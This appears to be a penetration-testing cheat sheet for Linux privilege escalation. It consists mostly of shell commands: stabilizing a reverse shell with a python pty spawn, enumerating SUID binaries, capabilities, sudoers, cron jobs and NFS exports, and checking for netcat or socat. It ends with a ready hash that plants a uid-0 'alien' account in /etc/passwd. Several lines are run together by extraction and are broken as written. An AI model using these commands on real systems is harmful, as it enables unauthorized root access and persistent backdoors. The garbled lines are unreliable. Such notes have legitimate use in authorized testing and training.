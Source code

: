 # Path to Root

### **Shell Stabilization**

```powershell
python -c 'import pty;pty.spawn("/bin/bash")' #OR
python3 -c 'import pty;pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z #Background Process
stty raw -echo ; fg ; 
reset
stty columns 200 rows 200
```

### Manual Enumeration

```powershell
#check basic info on the system
which 
    gcc
    cc
    python
    perl
    wget
    curl
    fetch
    nc
    ncat
    nc.traditional
    socatCompilation

uname -a
cat /etc/issue 
cat /etc/*-release
sudo -lls -lsaht /etc/sudoers
groups <user>
cd /home/ls -la #find users
find / -perm -u=s -type f 2>/dev/null #Find SUIDS we can use
find / -perm -g=s -type f 2>/dev/null #Find GUIDS we can use
ls -la /var/www/html/ #Check for files containing creds

#what does the network look like?
netstat -antup
netstat -tunlp

#find all files created by our user
find / -user {username} 2>/dev/null

#any capabilites we can exploit?
getcap -r / 2>/dev/null

#any services running as root?
ps aux |grep -i 'root' --color=auto

mysql -uroot -p

#anything in /etc/ at our user level?
ls -la /etc

#any config files left behind?
ls -lsaht |grep -i ‘.conf’ --color=auto

#any secret files?
ls -lsaht |grep -i ‘.secret’ --color=auto

#any SSH files we can mess with?
ls -lsaR /home/

#do we have file transfer capabilities?
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

ls -lsaht #take a look at these folders for weird shit
    /var/lib
    /var/db
    /opt/
    /tmp/
    /var/tmp/
    /dev/shm/

#cronjobs
cat /etc/crontab
ls -la /etc/cron
crontab -u root -l

#can we exploit weak NFS Permissions?
cat /etc/exports #no_root_squash

#can we write to /etc/password?
openssl passwd -1haxor$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.echo 'alien:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:alien:/home/alien:/bin/bash' >> /etc/passwdsu alienid

#need to add port forwarding
#need to add NFS mounting
```

[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

**SUID/GUID/SUDO **_**Escalation**_**:** [https://gtfobins.github.io/](https://gtfobins.github.io/)

**Binary/Languages with "**_**Effective Permitted**_**" or "**_**Empty Capability**_**"** [https://www.insecure.ws/linux/getcap\_setcap.html#getcap-setcap-and-file-capabilities](https://www.insecure.ws/linux/getcap\_setcap.html#getcap-setcap-and-file-capabilities)

**NFS? Can we exploit weak NFS Permissions?cat /etc/exports no\_root\_squash?**
